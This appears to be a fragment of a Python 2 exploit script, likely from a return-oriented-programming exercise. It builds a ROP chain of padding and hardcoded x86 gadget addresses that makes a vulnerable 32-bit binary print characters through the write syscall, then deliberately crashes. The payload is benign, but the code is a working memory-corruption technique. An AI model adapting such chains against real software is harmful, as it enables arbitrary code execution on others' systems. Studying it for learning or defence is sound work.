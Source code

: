 ``` python
    p += pack('<I', 0xdeadbeef) #  filler for pop ebx
    return p


#print the char in memory to the screen
def print_char():
    p = ""
    #Set eax to 0x4 and ebx to 0x1
    p += pack('<I', 0x080584a6) # : xor eax, eax ; pop ebx ; ret
    p += pack('<I', 0xffffffff)# set ebx to 0xfffffff
    p += pack('<I', 0x080e2593) #: add al, 2 ; inc ebx ; ret (ebx=0xffffffff+1 = 0x00000000)
    p += pack('<I', 0x080e2593) #: add al, 2 ; inc ebx ; ret (ebx=0x00000000+1 = 0x00000001)

    #Set ecx to 0x080ea060
    p += pack('<I', 0x080e4c5d) # pop ecx ; ret
    p += pack('<I', 0x080ea060) #address of AAAA


    #set edx to 0x1
    p += pack('<I', 0x0806e97a)# pop edx ; ret
    p += pack('<I', 0xffffffff)# set edx to 0xfffffff
    p += pack('<I', 0x0805d0e7)# : inc edx ; ret
    p += pack('<I', 0x0805d0e7)# : inc edx ; ret (now edx is 0x1)

    #call interupt
    p += pack('<I', 0x0806f040) # int 0x80; ret
    return p


#convert a char to 0xXXXXXXX number
def dub_char(s):
    r = ord(s[0])
    r = r | r << 8 | r << 16 | r << 24
    return r

if __name__ == "__main__":
    p = '+'*(0x70) #padding

    for c in sys.argv[1]:
        if ord(c) == 0x20:
            p += write_space()
        else:
            p += write_char(dub_char(c))

        p += print_char()

    p += write_newline()
    p += print_char()

    p += pack('<I', 0xcafebabe) # <-- segfault here

    print p 
```
